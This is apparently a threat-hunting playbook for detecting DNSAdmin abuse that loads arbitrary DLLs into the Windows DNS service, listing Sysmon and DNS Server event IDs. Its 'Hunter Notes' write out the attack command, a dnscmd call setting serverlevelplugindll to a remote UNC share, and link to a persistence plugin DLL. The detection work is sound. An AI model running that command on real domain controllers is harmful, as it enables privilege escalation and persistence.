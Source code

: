 # Windows DNS Server dll injection via RPC (DnssrvOperation2)
## Description
The Windows DNS Server management protocol, which is based on RPC, allows
DnsAdmins and higher privileged Users to load arbitary dlls as plugins into the
DNS service

You can find a detailed description
[here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).

## Hypothesis
Adversaries might be abusing DNSAdmin privileges to escalate privileges to
Domain Admin and achieve persistence by loading arbitary dlls as plugins into
the DNS service in my environment.

## Events (dnscmd execution)

| Source | EventID | Field | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| Sysmon | 13 | EventType |SetType - TargetObject gets set (see next line) | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Sysmon | 13 | TargetObject |REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\DNS\Parameters\ServerLevelPluginDll gets set to the dll path | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Microsoft-Windows-DNSServer | 541 | Data Name="Setting" | serverlevelplugindll (**case insensitive**), parameter as set by the attacker when executing dnscmd | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Microsoft-Windows-DNSServer | 541 | Data Name="NewValue" | \\192.168.0.149\dll\wtf.dll (**case insensitive**), parameter to the /serverlevelplugindll command as executed by the attacker | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |

## Events (DNS service restarted)
| Source | EventID | Field | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| DNS Server | 771 | | Event gets logged when a dll plugin is loaded by the DNS service |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 770 | EventData Name="DNS_EVENT_PLUGIN_DLL_LOAD_OK" | |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 770 | Name="param1" \\192.168.0.149\dll\wtf.dll" | | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Sysmon | 7 | ImageLoaded | icmp.dll, oleauth32.dll, wtf.dll (specified plugin dll) | details: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |

## Events (when loading the dll failed)
| Source | EventID | Field | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| DNS Server | 150 | EventData Name="DNS_EVENT_PLUGIN_INIT_FAILED" | |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 150 | Name="param1" \\192.168.0.149\dll\wtf.dll" | | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |

## Hunter Notes
We assume the attacker has a privileged user to reconfigure the DNS service:

The attack has to be executed in two steps:

  1. dnscmd.exe dc1.lab.internal /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
    - Whereas the dll has to be as a special DNS server plugin dll.
      ([GitHub 0xdim69](https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp))
    - A registry parameter gets added: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll and set to the value \\\\192.168.0.149\dll\wtf.dll

  2. The DNS service gets restarted
    - The DLL is loaded into dns.exe and the API functions are called.

## Hunting Techniques Recommended

- [x] Grouping
- [x] Searching
- [ ] Clustering
- [ ] Stack Counting
- [ ] Scatter Plots
- [ ] Box Plots
- [ ] Isolation Forests

